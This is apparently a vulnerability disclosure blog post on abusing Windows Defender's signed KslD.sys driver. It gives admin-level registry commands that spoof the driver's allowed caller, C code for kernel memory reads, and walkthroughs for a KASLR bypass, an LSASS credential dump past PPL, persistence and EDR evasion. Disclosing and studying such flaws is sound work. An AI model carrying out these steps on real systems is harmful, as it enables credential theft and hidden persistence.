



# KslD.sys - Weaponizing Windows Defender's Own Signed Driver

**TL;DR:** My research has identified a critical security flaw in KslD.sys, a Microsoft-signed kernel support driver shipped with Windows Defender. This driver exposes unrestricted physical and virtual memory read primitives through a single IOCTL. I developed a proof-of-concept tool that, given local admin access, bypasses the driver's weak access control to defeat KASLR, dump LSASS credentials through PPL protection, and enumerate all process tokens - without dropping or loading any external driver. This effectively turns a core Microsoft security component into a powerful LOLDriver (Living Off the Land Driver), buried deep within the Windows security stack.

### Prerequisites

| Requirement | Detail |
|-------------|--------|
| **Privilege** | Local administrator (needed to modify `AllowedProcessName` registry value) |
| **OS** | Tested on Windows 11 22H2 (build 22621) and 24H2 (build 26200). Windows 10 likely affected but not tested |
| **Driver** | `KslD` service must be running (`sc start KslD`) |
| **Secure Boot** | Driver loads normally - it is Microsoft-signed |
| **HVCI** | Expected to pass (Microsoft-signed), not verified under all HVCI configurations |
| **Credential Guard** | NTLM hashes remain in LSASS (VTL0). Kerberos TGTs isolated in VTL1 if CG enabled |

---

## Table of Contents

1. [Background: The BYOVD Evolution](#background-the-byovd-evolution)
2. [Discovery: A Driver Hidden in Plain Sight](#discovery-a-driver-hidden-in-plain-sight)
3. [Technical Analysis of KslD.sys](#technical-analysis-of-ksldsys)
4. [Access Control: The Illusion of Process-Name Validation](#access-control-the-illusion-of-process-name-validation)
5. [IOCTL Analysis & Sub-Commands](#ioctl-analysis--sub-commands)
6. [The Exploitation Chain](#the-exploitation-chain)
   - [Step 1: Defeating KASLR via DPC](#step-1-defeating-kaslr-via-dpc)
   - [Step 2: Acquiring Kernel Virtual Read](#step-2-acquiring-kernel-virtual-read)
   - [Step 3: Dynamic EPROCESS & Offset Enumeration](#step-3-dynamic-eprocess--offset-enumeration)
   - [Step 4: PPL Bypass - Direct Physical Memory Acquisition of LSASS](#step-4-ppl-bypass--direct-physical-memory-acquisition-of-lsass)
7. [The SharedState Registry Persistence Vector](#the-sharedstate-registry-persistence-vector)
8. [Dynamic Multi-Build Support](#dynamic-multi-build-support)
9. [Patch Analysis & Driver Variants](#patch-analysis--driver-variants)
10. [Security Impact & Attack Scenarios](#security-impact--attack-scenarios)
11. [Disclosure Timeline](#disclosure-timeline)

---

## Background: The BYOVD Evolution

Bring Your Own Vulnerable Driver (BYOVD) attacks have become a staple of advanced threat actors seeking kernel-level privileges. Traditionally, this involves dropping a known-vulnerable signed driver, loading it, and leveraging its primitives to disable EDR or escalate privileges. While Microsoft's [Vulnerable Driver Blocklist](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules) mitigates known threats, there's a worse variant: **Living off the Land Drivers (LotL-Drivers)**.

What if the vulnerable driver is already "in-box," signed by Microsoft, and distributed with Windows Defender itself?

## Discovery: A Driver Hidden in Plain Sight

During a security audit of kernel drivers on Windows 11, I identified `KslD.sys` - a kernel support driver for the Windows Defender platform. A single IOCTL (`0x222044`) dispatches to 20 sub-command slots, several of which provide **unrestricted physical and virtual memory access**.

While preparing this writeup, I learned that [S1lkys](https://github.com/S1lkys/KslKatz) published a similar finding. My research independently confirms their results. I go beyond KslKatz with a registry persistence technique (`SharedState`) that survives Defender self-updates. My tool also takes a different architectural approach - generating a standard minidump for offline `pypykatz` analysis rather than performing in-process credential decryption.

## Technical Analysis of KslD.sys

| Property | Value |
|----------|-------|
| **File Path** | `C:\Windows\System32\drivers\KslD.sys` (newer systems) or `C:\Windows\System32\drivers\wd\KslD.sys` (older) |
| **Service Name** | `KslD` (Demand Start) |
| **Signer** | `CN=Microsoft Windows, O=Microsoft Corporation` |
| **Device Name** | `\\.\KslD` (symlink derived from `DeviceName` registry value) |
| **IOCTL** | `0x222044` (Device=0x22, Function=0x811, METHOD_BUFFERED, FILE_ANY_ACCESS) |

The driver is a core component of the Defender platform, updated via `KB4052623`. Its Microsoft signature means:

- It loads on systems with Secure Boot enabled
- Being Microsoft-signed, it is expected to pass WDAC and HVCI (Memory Integrity) policy checks - though I have not verified this under every HVCI configuration
- It is **not** on the Vulnerable Driver Blocklist (it is Microsoft's own trusted binary)
- No external driver needs to be dropped or loaded by the attacker

### Quick Start

```
C:\> reg add "HKLM\SYSTEM\CurrentControlSet\Services\KslD\SharedState" /v AllowedProcessName /d "<your NT path>" /f
C:\> MsMpEng.exe --kaslr          # defeat KASLR via CPU register dump
C:\> MsMpEng.exe --dump-tokens    # enumerate all processes + tokens + PPL levels
C:\> MsMpEng.exe --lsass-dump     # dump LSASS via page table walk -> lsass.dmp
C:\> pypykatz lsa minidump lsass.dmp   # extract NTLM hashes offline
```

## Access Control: The Illusion of Process-Name Validation

The driver implements a single access control mechanism: **full NT path validation** of the calling process.

The driver retrieves its expected caller path from the registry:

```
Registry Key: HKLM\SYSTEM\CurrentControlSet\Services\KslD
Value Name:   AllowedProcessName
Value Data:   \Device\HarddiskVolume4\ProgramData\Microsoft\Windows Defender\Platform\4.18.XXXXX.X\MsMpEng.exe
```

When a process opens the `\\.\KslD` device, the driver calls `ZwQueryInformationProcess` with `ProcessImageFileName` (class `0x1B`) to obtain the caller's **full NT image path**, then compares it against the `AllowedProcessName` value. This is a full-path comparison, not just a filename check.

**The bypass requires administrator access** to modify the registry:

```
C:\Exploit> copy exploit.exe MsMpEng.exe

REM Write our path to the SharedState subkey (driver reads this first)
C:\Exploit> reg add "HKLM\SYSTEM\CurrentControlSet\Services\KslD\SharedState" ^
            /v AllowedProcessName /t REG_SZ ^
            /d "\Device\HarddiskVolume4\Users\Attacker\MsMpEng.exe" /f

C:\Exploit> MsMpEng.exe --check
[+] Opened device: \\.\KslD (access: READ+WRITE)
```

There is no DACL on the device object, no integrity level check, and no code signing validation on the caller. Once the registry value points to the attacker's executable, any process at that path can access the driver.

> **Why this still matters:** The driver is Microsoft-signed and already loaded on the system. An attacker with admin access doesn't need to drop or load any driver - they just point the existing driver's access control at their own tool. This avoids BYOVD blocklists and driver-loading alerts entirely.

> **Technical nuance:** The `AllowedProcessName` must be in **NT path format** (`\Device\HarddiskVolumeX\...`), not Win32 format (`C:\...`), as this is what `ZwQueryInformationProcess` returns. Use `QueryDosDevice("C:")` to resolve the correct volume device path. Defender updates sometimes change the volume index, so this must be resolved dynamically.

### Step-by-Step Reproduction

**Step 1:** Rename the exploit binary to `MsMpEng.exe`.

**Step 2:** Configure the driver's registry values (run as Administrator). Replace `\Device\HarddiskVolumeX\Path\To\` with your actual NT path:

```bat
reg add "HKLM\SYSTEM\CurrentControlSet\Services\KslD" /v AllowedProcessName /t REG_SZ /d "\Device\HarddiskVolumeX\Path\To\MsMpEng.exe" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\KslD" /v DeviceName /t REG_SZ /d "KslD" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\KslD" /v Version /t REG_SZ /d "1.1.25111.3024" /f

reg add "HKLM\SYSTEM\CurrentControlSet\Services\KslD\SharedState" /v DeviceName /t REG_SZ /d "KslD" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\KslD\SharedState" /v AllowedProcessName /t REG_SZ /d "\Device\HarddiskVolumeX\Path\To\MsMpEng.exe" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\KslD\SharedState" /v Version /t REG_SZ /d "1.1.25111.3024" /f
```

**Step 3:** Restart the driver to apply the configuration:

```bat
sc stop KslD
sc start KslD
```

The device `\\.\KslD` is now accessible to the renamed exploit process with READ+WRITE access.

**Step 4:** Run the exploit:

```bat
MsMpEng.exe --lsass-dump
```

> **Finding your NT path:** Run `powershell -c "(Get-Item C:\).Target"` or use `QueryDosDevice("C:")` programmatically. A typical NT path looks like `\Device\HarddiskVolume4\Users\YourUser\Desktop\MsMpEng.exe`.

## IOCTL Analysis & Sub-Commands

The `0x222044` IOCTL handler dispatches based on the first DWORD of the input buffer. The base input structure is 24 bytes, though some sub-commands extend it to 32 bytes:

```c
// Base input structure (e.g., for sub-commands 0x01, 0x02)
typedef struct _KSLD_INPUT {
    ULONG     SubCommand;      // +0x00
    ULONG     ProcessorIdx;    // +0x04
    ULONGLONG PhysAddress;     // +0x08
    ULONGLONG Size;            // +0x10
} KSLD_INPUT;                  // Total: 24 bytes (0x18)

// Extended input structure (e.g., for sub-command 0x0C - MmCopyMemory)
typedef struct _KSLD_INPUT_EX {
    ULONG     SubCommand;      // +0x00  (= 0x0C)
    ULONG     Reserved;        // +0x04
    ULONGLONG Address;         // +0x08  physical or virtual address
    ULONGLONG Size;            // +0x10  bytes to copy
    ULONG     Direction;       // +0x18  1=Physical, 2=Virtual
    ULONG     Padding;         // +0x1C
} KSLD_INPUT_EX;               // Total: 32 bytes (0x20), followed by data area
```

The driver supports sub-commands `0x00` through `0x13` (20 dispatch slots) across three internal "plugins". The security-relevant ones:

### Plugin 1 - Memory & Process Operations

| Sub-Cmd | Native Function | Security Impact |
|---------|----------------|-----------------|
| `0x00` | Version query | Information Disclosure |
| **`0x01`** | **ZwMapViewOfSection (`\Device\PhysicalMemory`)** | **Arbitrary Physical Memory Read** |
| **`0x02`** | **DPC-based CPU register dump (IDTR, GDT, CR0, CR3, CR4)** | **KASLR Bypass** |
| `0x07` | MmGetSystemRoutineAddress | Kernel Symbol Resolution |
| `0x08` | ZwOpenProcess (any PID) + ObReferenceObjectByHandle | Process Handle Acquisition (EPROCESS) |
| `0x0B` | (Validated by Plugin 1 bitmask) | Stub - not dispatched |
| **`0x0C`** | **MmCopyMemory wrapper** | **Arbitrary Kernel/Physical Memory Read** |

### Plugin 2 - File & Reparse Operations

| Sub-Cmd | Native Function | Security Impact |
|---------|----------------|-----------------|
| `0x03` / `0x05` | ZwReadFile (with pagefile path validation) | Kernel File Read |
| `0x04` / `0x06` | ZwCreateFile + ZwQueryInformationFile | Kernel File Open / Size Query |
| `0x09` | ZwFsControlFile (`FSCTL_SET_REPARSE_POINT`) | **Reparse Point Manipulation** |

### Plugin 3 - Hardware Operations

| Sub-Cmd | Native Function | Security Impact |
|---------|----------------|-----------------|
| `0x0E` | CPUID execution | CPU Feature Enumeration |
| `0x0F` | PCI config space read (port I/O 0xCF8/0xCFC) | Hardware Enumeration (PCI) |
| `0x10` | PCI BAR / MMIO region discovery | Hardware Detection |
| **`0x11`** | **MmMapIoSpace (SMBus MMIO read)** | **Arbitrary Physical Memory Read** |
| `0x12` | PCI BAR range enumeration (port I/O) | Hardware Enumeration |
| `0x13` | Bulk MmMapIoSpace read (page-aligned) | Gated Physical Read (see note) |

**Three independent paths to read physical memory** exist (sub-commands `0x01`, `0x0C`, and `0x11`). Sub-command `0x0C` also supports **virtual kernel address reads** via the `MM_COPY_MEMORY_VIRTUAL` flag.

> **Note on write primitive (sub-cmd 0x13):** The MmMapIoSpace write operation is gated behind hardware capability flags at driver offsets `+0x18` and `+0x19`, which must be set first via sub-commands `0x0F` (PCI config read) and `0x10` (AHCI BAR detection). This requires the target machine to have responsive PCI/AHCI hardware that triggers the correct code path. In my testing across multiple VMs and bare-metal configurations, I was unable to achieve a reliable memory write primitive. Sub-command `0x09` can set reparse points on files (a filesystem write), but **no arbitrary physical/virtual memory write was achieved.** This limits the impact to information disclosure and credential theft, not direct privilege escalation via token overwrite.

## The Exploitation Chain

### Step 1: Defeating KASLR via DPC

Sub-command `0x02` dumps CPU register state by dispatching a Deferred Procedure Call (DPC) to a target processor:



From the IDTR base, I use the physical memory read primitive to walk the IDT and extract ISR addresses:

```
Sub-cmd 0x02 -> IDTR.Base -> Read IDT[n] -> ISR address (inside ntoskrnl)
                                              |
                              Scan backwards (page-aligned) for MZ header
                                              |
                                        ntoskrnl base address
```

These ISRs reside within `ntoskrnl.exe`, so scanning backwards from any ISR address to the nearest `MZ` header reveals the kernel base - defeating KASLR entirely from user mode.

I can also use `NtQuerySystemInformation` (class 11, `SystemModuleInformation`) to retrieve the kernel base directly. Since the exploitation chain already requires admin access (for the registry bypass), this API is available. The IDT-based technique serves as a fallback that avoids API calls entirely.

### Step 2: Acquiring Kernel Virtual Read

The primary read primitive is sub-command `0x0C`, which wraps `MmCopyMemory`:

```c
BOOL KslMmCopyRead(UINT64 Address, PVOID outData, DWORD size, ULONG Direction) {
    BYTE buf[4096] = {0};
    PKSLD_INPUT_EX input = (PKSLD_INPUT_EX)buf;
    input->SubCommand = 0x0C;
    input->Address    = Address;
    input->Size       = size;
    input->Direction  = Direction;  // 1=Physical, 2=Virtual

    DWORD br = 0;
    // METHOD_BUFFERED: data follows the 0x20-byte header in the system buffer
    BOOL ok = DeviceIoControl(hDevice, KSLD_IOCTL,
                              buf, 0x20 + size, buf, 0x20 + size, &br, NULL);
    if (ok) memcpy(outData, buf, size);
    return ok;
}
```

This grants arbitrary read of any kernel virtual address - including EPROCESS structures, token objects, encryption keys, and any paged-in kernel data. For physical address reads, set `Direction = 1`.

### Step 3: Dynamic EPROCESS & Offset Enumeration

With a functional kernel read primitive, I traverse the EPROCESS linked list starting from `PsInitialSystemProcess`:

```
C:\Exploit> MsMpEng.exe --dump-tokens

[+] System EPROCESS: 0xFFFFAC09C5289040
[*] Auto-detecting EPROCESS offsets for this OS build...
[+] UniqueProcessId offset:    0x440 (found PID=4)
[+] ActiveProcessLinks offset: 0x448
[+] ImageFileName offset:      0x5A8 (found 'System')
[+] Token offset:              0x4B8 (value: 0xFFFF9D8246C44770)
[+] Protection offset:         0x87A (value: 0x72)

PID    PPID   Protection       Token              Name
-----  -----  ---------------  -----------------  ----------------
4      0      72 WinSystem:PP  FFFF9D8246C44770   System
580    4      61 WinTcb:PPL    FFFF9D8246C42400   smss.exe
768    580    00 None           FFFF9D8246C5E3C0   csrss.exe
...
5612   832    31 AntiMalw:PPL  FFFF9D824C2156A0   MsMpEng.exe
6200   832    41 Lsa:PPL       FFFF9D824B891640   lsass.exe    <- PPL Protected
```



**Offset challenge:** EPROCESS field offsets change between Windows builds. Build 22621 (22H2) uses `PID=0x440`, while build 26200 (24H2) uses `PID=0x1D0`. DefenderDump eliminates hardcoded offsets by dynamically probing the System EPROCESS at runtime:

1. Scan for QWORD value `4` (System's PID) at 8-byte aligned offsets
2. Verify the subsequent QWORD is a valid kernel pointer (the `Flink` of `ActiveProcessLinks`)
3. Scan forward for the ASCII string `"System"` to identify the `ImageFileName` offset
4. Apply the known PID-to-Token delta (`0x78`, consistent across tested builds) to locate the `Token` field
5. Search for byte value `0x72` (WinSystem:PP - signer=7, type=2) past the image name to find the `Protection` field

This approach works across Windows 10/11 builds without code modifications.

### Step 4: PPL Bypass - Direct Physical Memory Acquisition of LSASS

Modern Windows protects LSASS with Protected Process Light (PPL). Standard calls like `OpenProcess` + `MiniDumpWriteDump` fail with `ERROR_ACCESS_DENIED`, defeating traditional credential dumpers like Mimikatz.

I bypass PPL entirely by acquiring LSASS memory through its **physical addresses**:

**4.1 - Locate LSASS EPROCESS**

Traverse the EPROCESS list (Step 3) and find the entry where `ImageFileName == "lsass.exe"`.

**4.2 - Extract CR3 (Directory Table Base)**

Each process has a unique CR3 value stored in `KPROCESS.DirectoryTableBase` (offset `0x028`, stable across builds):

```c
UINT64 lsassCr3;
KslMmCopyRead(lsassEprocess + 0x028, &lsassCr3, 8, 2); // 2 = MM_COPY_MEMORY_VIRTUAL
// Result: 0x000000014C21A000
```

**4.3 - Walking the page tables (Manual translation)**

I implemented a small virtual-to-physical memory translation by manually walking the page tables in order to get physical addresses for the LSASS process. This was done by walking the 4-level page table hierarchy as below:

```
Virtual Address: 0x00007FF6'12340000

CR3 (DTB) --> PML4[0x0FF] --> PDPT base (physical)
               PDPT[0x1D8] --> PD base (physical)
               PD[0x091]   --> PT base (physical)  [or 2MB page if PS bit set]
               PT[0x140]   --> 4KB Page Frame (physical)
```

The entire translation is performed from user mode using the KslD.sys physical memory read primitive. Large pages (2MB) are handled by checking the PS (Page Size) bit in the PD entry.

**4.4 - Physical Acquisition**

I read LSASS memory pages through their physical addresses using sub-command `0x0C` with `Direction=1` (physical). Because I never open a handle to the LSASS process, the PPL access check in the Object Manager is never triggered. The read occurs entirely through physical memory, outside the scope of process-level protections.

**4.5 - Minidump Generation**

DefenderDump constructs a standard Minidump (MDMP) file for offline analysis:

- `SystemInfoStream` - OS version, build number, processor architecture
- `ModuleListStream` - loaded DLLs in LSASS (`lsasrv.dll`, `msv1_0.dll`, `wdigest.dll`, etc.)
- `Memory64ListStream` - raw memory pages acquired via physical reads

The generated dump is compatible with `pypykatz` for credential extraction:

```
C:\Analyst> pypykatz lsa minidump lsass.dmp

== MSV ==
  Username: JohnDoe
  Domain:   WORKGROUP
  LM:       aad3b435b51404eeaad3b435b51404ee
  NT:       [redacted]
  SHA1:     [redacted]

== WDigest ==
  [only populated when UseLogonCredential=1 in registry]
```



> **About WDigest:** Cleartext WDigest credentials are only cached when `HKLM\...\WDigest\UseLogonCredential` is set to `1`. This is disabled by default on Windows 10+. NTLM hashes from MSV1_0 are available on systems without Credential Guard.

> **Limitations:** Some LSASS heap pages may be paged out to `pagefile.sys`. Physical memory reads cannot retrieve paged-out data. In practice, the critical credential structures (MSV1_0 logon sessions) are typically resident. VBS-backed Credential Guard isolates Kerberos TGTs and derived keys in `LSAIso.exe` (VTL1), making those secrets inaccessible via physical memory reads. NTLM hashes may still reside in LSASS (VTL0) depending on Windows version and CG configuration.

## The SharedState Registry Persistence Vector

When Windows Defender platform updates occur (via `KB4052623`), the `KslD` service configuration often resets - the `AllowedProcessName` path may change, or the `DeviceName` symlink might be updated.

I discovered that the driver attempts to read its configuration from a `SharedState` subkey before falling back to the service root:

```
HKLM\SYSTEM\CurrentControlSet\Services\KslD\SharedState
    DeviceName         = KslD
    AllowedProcessName = \Device\HarddiskVolume4\...\MsMpEng.exe
    Version            = 4.18.XXXXX.X
```

By pre-creating this key with the spoofed process name and the correct volume path, the exploit survives Defender self-updates. The driver continues to grant access to the spoofed executable.

> **Note:** Writing to `HKLM\SYSTEM\CurrentControlSet\Services\` requires administrator privileges. This is a **post-exploitation persistence mechanism**, not an initial vector for privilege escalation.

## Dynamic Multi-Build Support

Windows kernel structures change between builds. DefenderDump handles this automatically:

| Build | PID Offset | Links | Token | ImageName | Protection |
|-------|-----------|-------|-------|-----------|------------|
| 22621 (Win11 22H2) | 0x440 | 0x448 | 0x4B8 | 0x5A8 | 0x87A |
| 26200 (Win11 24H2) | 0x1D0 | 0x1D8 | 0x248 | 0x338 | 0x5FA |

Rather than maintaining an offset table, the tool probes the System EPROCESS at runtime and discovers all offsets dynamically (see Step 3). The PID-to-Token delta of `0x78` has been consistent across every build I tested.

## Patch Analysis & Driver Variants

Microsoft ships `KslD.sys` in different locations depending on the Defender platform version:

| Path | Newer systems | My VM (22H2) | Notes |
|------|--------------|--------------|-------|
| `C:\Windows\System32\drivers\KslD.sys` | **Present** | Not found | Primary path on current Defender builds |
| `C:\Windows\System32\drivers\wd\KslD.sys` | Not found | **Present** (82KB) | Older Defender layout |

Key observations:

1. [KslKatz](https://github.com/S1lkys/KslKatz) reports the 82KB version has MmCopyMemory nulled, and ships an embedded copy of the older 333KB version as a workaround. On my Win11 22H2 VM (Defender platform `4.18.26010.5`), sub-command 0x0C **functioned correctly**. This suggests the nulling behavior varies across Defender platform versions.
2. Even if `MmCopyMemory` were disabled, sub-commands `0x01` (ZwMapViewOfSection) and `0x11` (MmMapIoSpace) utilize **separate code paths** and provide independent physical memory read primitives.
3. Nulling one function pointer is insufficient - the vulnerability is a **design flaw** - multiple independent primitives each give the same read capability.

## Security Impact & Attack Scenarios

### Attack Primitives

| Primitive | Driver Vector | Prerequisites |
|-----------|--------------|---------------|
| **KASLR Bypass** | Sub-cmd 0x02 (CPU registers -> IDT -> ISR) | Admin (registry mod + driver loaded) |
| **Arbitrary Physical Read** | Sub-cmd 0x01 / 0x0C / 0x11 | Admin (registry mod + driver loaded) |
| **Arbitrary Kernel Virtual Read** | Sub-cmd 0x0C (Direction=2) | Admin (registry mod + driver loaded) |
| **LSASS Credential Acquisition** | Page table walk + physical read | Admin (registry mod + driver loaded) |
| **Process Token Enumeration** | EPROCESS linked list traversal | Same as above |
| **EPROCESS.Protection Read** | Direct kernel memory read | Same as above |

> **What about write?** Sub-command 0x13 has a write code path, but it is gated behind hardware capability flags that I could not reliably trigger. In my testing, no sub-command provided an arbitrary memory write primitive. A reliable kernel memory write would upgrade this from information disclosure to full LPE - but I did not achieve this.

### Scenarios

- **Credential theft:** Dump NTLM hashes from LSASS by bypassing PPL protection and EDR usermode hooks. WDigest cleartext passwords are extractable if `UseLogonCredential=1`.
- **Post-exploitation kernel read:** An attacker with admin access gains full kernel memory visibility through a Microsoft-signed driver, avoiding the need to load their own driver or trigger BYOVD blocklist alerts.
- **EDR evasion:** The driver is Microsoft-signed and already present on the system - no vulnerable driver to drop, no blocklist entries to worry about. The only file placed on disk is the renamed exploit executable.
- **Persistence:** The SharedState registry technique survives Defender self-updates (requires one-time admin access to create the key).

## Disclosure Timeline

This vulnerability was discovered independently during authorized security research.

| Date | Event |
|------|-------|
| 2026-03-16 | Independent discovery during kernel driver audit |
| 2026-03-17 | PoC tool developed and validated on Win11 22H2 + 24H2 |
| 2026-03-26 | Submitted to MSRC |
| 2026-04-01 | Microsoft Response: "This issue does not meet the bar for security servicing." |
| 2026-04-02 | Blog post published |

---

*This research was conducted under authorized security testing for responsible disclosure. All testing was performed on systems owned by the researcher.*
